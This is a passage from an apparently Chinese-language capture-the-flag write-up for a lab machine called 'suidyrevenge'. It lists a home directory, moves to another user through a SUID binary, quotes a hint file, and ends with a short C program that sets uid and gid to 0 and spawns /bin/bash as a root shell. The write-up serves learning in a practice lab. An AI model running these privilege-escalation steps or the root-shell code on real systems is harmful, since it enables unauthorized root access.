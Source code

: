 ```bash
                                     ** *,



HMVbisoususeryay
```

### 环境探测

根据探测，`suidy` 用户的用户目录可以访问

```bash
(remote) theuser@suidyrevenge:/home/suidy$ ls -lah
total 52K
drwxrwxr-x 3 suidy suidy   4.0K Oct  2  2020 .
drwxr-xr-x 8 root  root    4.0K Oct  1  2020 ..
-rw------- 1 suidy suidy     25 Oct  1  2020 .bash_history
-rwxrwx--- 1 suidy suidy    220 Oct  1  2020 .bash_logout
-rwxrwx--- 1 suidy suidy   3.5K Oct  1  2020 .bashrc
drwxr-xr-x 3 suidy suidy   4.0K Oct  1  2020 .local
-rw-r----- 1 suidy suidy    262 Oct  1  2020 note.txt
-rwxrwx--- 1 suidy suidy    807 Oct  1  2020 .profile
-rwsrws--- 1 root  theuser  17K Oct  2  2020 suidyyyyy
```

其中，`suidyyyyy` 具有 suid，并且当前用户具有执行的权限，直接执行即可横向

```bash
(remote) theuser@suidyrevenge:/home/suidy$ ./suidyyyyy
suidy@suidyrevenge:/home/suidy$ whoami
suidy
```

## User - suidy

### 题目提示

```plaintext title="/home/suidy/note.txt"
I know that theuser is not here anymore but suidyyyyy is now more secure!
root runs the script as in the past that always gives SUID to suidyyyyy binary
but this time also check the size of the file.
WE DONT WANT MORE "theuser" HERE!.
WE ARE SECURE NOW.

-suidy
```

### 编写恶意程序

```c
#include<stdlib.h>

int main(){
    setuid(0);
    setgid(0);
    system("/bin/bash");
    return 0;
}
```
